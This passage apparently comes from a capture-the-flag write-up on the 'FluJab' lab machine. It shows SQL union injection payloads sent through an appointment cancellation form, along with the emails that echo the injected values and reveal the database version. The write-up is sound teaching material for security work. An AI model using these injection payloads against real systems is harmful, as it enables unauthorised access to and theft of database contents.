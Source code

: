 Some more experimentation shows that with a payload of “' UNION SELECT 1, 2, 3, 4, 5-- comment”, we'll get the following email. Notice that Ref has a value of 3 which is the third field of our union select query. 

```
---------- MESSAGE FOLLOWS ----------
Date: Sun, 23 Jun 2019 03:14:51 +0100
To: cancelations@no-reply.flujab.htb
From: Nurse Julie Walters <DutyNurse@flujab.htb>
Subject: Flu Jab Appointment - Ref:3
Message-ID: <05f47cb54c49be8aeb12f100646c5869@freeflujab.htb>
X-Mailer: PHPMailer 5.2.22 (https://github.com/PHPMailer/PHPMailer)
MIME-Version: 1.0
Content-Type: text/plain; charset=iso-8859-1
X-Peer: 10.10.10.124

    CANCELLATION NOTICE!
  ________________________

    VACCINATION
    Routine Priority
    ------------------
    REF    : ' UNION SELECT 1, 2, 3, 4, 5-- comment
    Code   : Influ-022
    Type   : Injection
    Stat   : CANCELED
    LOC    : Crick026
  ________________________

  Your flu jab appointment has been canceled.
  Have a nice day,

  Nurse Julie Walters
  Senior Staff Nurse
  Cricklestone Doctors Surgery
  NHS England.


------------ END MESSAGE ------------
```

Sending a payload of “' UNION SELECT 1, 2, version(), 4, 5-- comment” gives us the following output in the Ref field. We've now confirmed we have a Union injection that can give us information held in the database.

```
---------- MESSAGE FOLLOWS ----------
Date: Sun, 23 Jun 2019 03:17:57 +0100
To: cancelations@no-reply.flujab.htb
From: Nurse Julie Walters <DutyNurse@flujab.htb>
Subject: Flu Jab Appointment - Ref:10.1.37-MariaDB-0+deb9u1
Message-ID: <383382f0449aa61a863fa51d1f146f19@freeflujab.htb>
X-Mailer: PHPMailer 5.2.22 (https://github.com/PHPMailer/PHPMailer)
MIME-Version: 1.0
Content-Type: text/plain; charset=iso-8859-1
X-Peer: 10.10.10.124

    CANCELLATION NOTICE!
  ________________________

    VACCINATION
    Routine Priority
    ------------------
    REF    : ' UNION SELECT 1, 2, version(), 4, 5-- comment
    Code   : Influ-022
```